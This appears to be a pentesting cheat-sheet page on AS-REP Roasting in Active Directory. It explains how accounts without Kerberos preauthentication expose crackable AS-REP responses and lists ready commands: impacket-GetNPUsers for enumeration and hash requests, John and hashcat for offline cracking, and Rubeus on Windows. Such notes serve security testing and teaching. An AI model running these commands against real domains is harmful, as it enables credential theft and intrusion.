 ```yaml
---
label: AS-Rep Roasting
---
```


# AS-Rep Roasting

The first step of the authentication process via Kerberos is to send an `AS-REQ`. Based on this request, the DC can validate if the authentication is successful. If so, the DC replies with an AS-REP containing the TGT. This step is also called _Kerberos Preauthentication_. It prevents offline password guessing.

Without _Kerberos Preauthentication_, an attacker is ablet to send an AS-REQ to the DC on behalf of any AD user. After obtaining the AS-REP from the DC, the attacker could perform offline cracking against the encrypted part of the response. This is the _AS-REP Roasting_ attack.

> **IMPORTANT**: By default, the AD user account **option "Do not require Kerberos preauthentication" is disabled**, meaning that Kerberos preauthentication is performed for all AD users. But it's quite common to find legacy (or not) services that requires this option to be enabled.

Linux:

> **NOTE**: `users.txt` includes usernames to be checked (one username per line).

```bash
# Enumerate ASReproastable users (without credentials)
impacket-GetNPUsers -usersfile users.txt -dc-ip $ip $domain/

# Enumerate ASReproastable users (with credentials)
impacket-GetNPUsers -usersfile users.txt -dc-ip $ip $domain/$user:$pass

# Request TGT to crack
impacket-GetNPUsers -dc-ip $ip -request -outputfile $file $domain/$user

# Crack AS-Rep Hash with John 
john --format=krb5asrep --wordlist=$wordlist $asrep_file

# Crack AS-Rep Hash with HashCat
hashcat -m 18200 $file $wordlist
```

Windows:

```powershell
# Get ASReproastable users
.\Rubeus.exe asreproast /nowrap
```
